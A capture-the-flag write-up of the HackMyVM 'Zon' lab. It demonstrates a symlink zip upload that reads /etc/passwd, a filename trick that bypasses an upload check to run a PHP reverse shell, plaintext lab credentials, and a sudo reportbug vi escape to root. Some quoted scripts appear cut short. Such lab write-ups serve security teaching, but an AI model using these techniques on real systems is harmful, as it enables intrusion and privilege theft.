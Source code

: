 ```yaml
---
title: HackMyVM - Zon
date: 2024-02-01
tags: ZIP ZIP-Upload File-Upload
author: raylex
---
```

## Enumeration
### 80 - Apache HTTP
Directory fuzzing reveals some interesting files and directories
```shell
┌──(r4yl3x㉿k4l1)-[~/CTF/HackMyVM/Zon]
└─$ cat fuzz/fuzz
/js                   (Status: 301) [Size: 309] [--> http://192.168.58.38/js/]
/index.php            (Status: 200) [Size: 29170]
/css                  (Status: 301) [Size: 310] [--> http://192.168.58.38/css/]
/images               (Status: 301) [Size: 313] [--> http://192.168.58.38/images/]
/contact.php          (Status: 200) [Size: 11753]
/report.php           (Status: 200) [Size: 13]
/blog.php             (Status: 200) [Size: 12490]
/uploads              (Status: 301) [Size: 314] [--> http://192.168.58.38/uploads/]
/upload.php           (Status: 500) [Size: 0]
/about.php            (Status: 200) [Size: 10538]
/service.php          (Status: 200) [Size: 12239]
/.                    (Status: 200) [Size: 29170]
/fonts                (Status: 301) [Size: 312] [--> http://192.168.58.38/fonts/]
/icon                 (Status: 301) [Size: 311] [--> http://192.168.58.38/icon/]
/testimonial.php      (Status: 200) [Size: 17014]
/choose.php           (Status: 200) [Size: 1908]
```
Zip files containing `.jpeg` images are accepted by the `choose.php` page, which also extracts the image and stores it in the `/uploads` directory.  
I'll use the symlink method to read files from the target
- Symlink `/etc/passwd` to `test.jpeg`
```
ln -s /etc/passwd ./test.jpeg
```
- Create malicious zip
```
zip -r file.zip test.jpeg --symlink
```
- Upload malicious zip
- Download the test.jpeg from the target
```
wget http://192.168.58.38/uploads/test.jpeg
```
- Extract the strings in the file
```shell
┌──(r4yl3x㉿k4l1)-[~/CTF/HackMyVM/Zon]
└─$ strings test.jpeg
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:103:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
mysql:x:104:112:MySQL Server,,,:/nonexistent:/bin/false
Debian-snmp:x:105:113::/var/lib/snmp:/bin/false
freddie:x:1000:1000:,,,:/home/freddie:/bin/zsh
```
### File read
Now that i can read local files, I'll modify a script [[Zon#^read]] 0xdf made in [HTB: Zipping | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/01/13/htb-zipping.html) so i don't have to symlink,zip and upload every time i want to view a file.  
The webapp's root directory is `/var/www/html`
- report.php
```php
<?php
$data = json_decode(file_get_contents('php://input'), true);
// Temporary random value for testing purposes only
$randomValue = rand(999999, getrandmax());
if ($data['shortSeq'] != $randomValue) {
    die("Access denied");
echo "Authorized access";
shell_exec('./hashDB.sh');
```
- hashDB.sh ^mysql
```shell
#!/bin/bash
# script that checks the database's integrity every minute
dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"
/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}"
/usr/bin/sed -i '$d' "${dump}"
hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')
if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
```
> MySQL Credential!  
> User: admin  
> Password: udgrJbFc6Av#U3
- upload.php
![upload.php](/docs/assets/images/Pasted%20image%2020240126180557.png){: w="700" h="400" }
## Foothold
### Shell as www-data
Looking at the code, i see that it can be tricked by zipping a file like `shell.jpeg .php`, the `awk '{print $4}'` command will print the 4th line, thereby omitting the ` .php` at the end.
![[Pasted image 20240127111811.png]]
This will result in a `return_var=0`, which is just what's needed for the actual unzipping part of the code to be processed.
![[Pasted image 20240127112018.png]]
Now i'll upload my malicious zip file which should pass all checks and drop `shell.jpeg .php` in the `uploads` directory which results in RCE
![[Pasted image 20240127112610.png]]
I'll upload pentest-monkey's php reverse shell and get shell as `www-data`  
![Pasted image 20240127113807.png](/docs/assets/images/Pasted%20image%2020240127113807.png)
- Stabilize the shell
### www-data -> freddie
Now that i have a stable shell, i''ll attempt to login to the [[Zon#^mysql]] db i saw earlier  
![db](/docs/assets/images/Pasted image 20240127114424.png)  
I'll login as `fredie` via ssh and retrieve #user-flag 
```shell
╭─freddie@zon ~
╰─$ cat user.txt
a0b4603c7fde7e4113d2ee5fbee5a038
```

> SSH Credential  
> Username: freddie  
> Password: LDVK@dYiEa2I1lnjrEeoMif
## Privilege Escalation 
Sudo commands run really slow cause hostname `zon` isn't in the `/etc/hosts` file
Listing sudoers reveals user `freddie` may run `/usr/bin/reportbug` as `root`
```shell
sudo: unable to resolve host zon: Name or service not known
Matching Defaults entries for freddie on zon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User freddie may run the following commands on zon:
    (ALL : ALL) NOPASSWD: /usr/bin/reportbug
```
The program is a debian bug report tool written in python  
Since it's a bug report tool running as root, i'm just going to guess is uses vim editor for bug writing submissions. Searching `/usr/bin/reportbug editor` confirms this
![[Pasted image 20240127123231.png]]
Now i just have to find a way to the editor
### freddie -> root
After briefly going through the documentation, i'll attempt to submit a report
```
sudo /usr/bin/reportbug
```
...and go on with the configuration
- select any operating mode - normal
- select internet option - n
- enter name - root
- enter an email - root@zon.local
- no transport agent
- no proxy
- `y` to continue as root
- enter `other` or any program name - `apt`
- enter a subject for the report
- select any severity
- it should now request for the editor, select Vi (if not specified using `-e`)
- enter the command `:!/bin/bash`
and a shell will be spawned as the `root` user
![[Pasted image 20240127170554.png]]
Retrieve the #root-flag 
```shell
root@zon:~# cat /root/root.txt
18a72aa09ce61fb487fd6745c8eba769
```